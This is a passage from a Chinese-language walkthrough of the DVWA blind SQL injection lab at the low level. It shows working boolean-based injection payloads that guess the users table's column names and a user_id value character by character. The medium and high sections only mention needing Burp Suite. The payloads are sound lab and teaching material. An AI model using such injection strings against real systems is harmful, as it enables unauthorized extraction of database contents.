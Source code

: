 ```同理，得到
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),7,1))=100 # 显示存在
# user表第一个字段的第7位为d

# user表第一个字段为 user_id

同理，得到user表中所有字段
user
avatar
failed_login
first_name
last_login
last_name
password
user_id
```



### 猜解数据

同样采用二分法

猜解user_id字段的第一条数据，这里特意使用类型为int的字段，原理都一样，转换成字符串二分法就可以

```
# 先猜数据长度，猜出长度为1
1' and (select length(substr((select user_id from dvwa.users limit 0,1),1)))=1 # 显示存在

# 再逐个猜每一位
1' and (select (substr((select user_id from dvwa.users limit 0,1),1,1)))=1 # 显示存在

# 猜出user_id字段的第一条数据为 1
```



至此，low等级毕！

<br>

## medium

需要配合BP抓包

<br>

## high

需要配合BP抓包

<br>
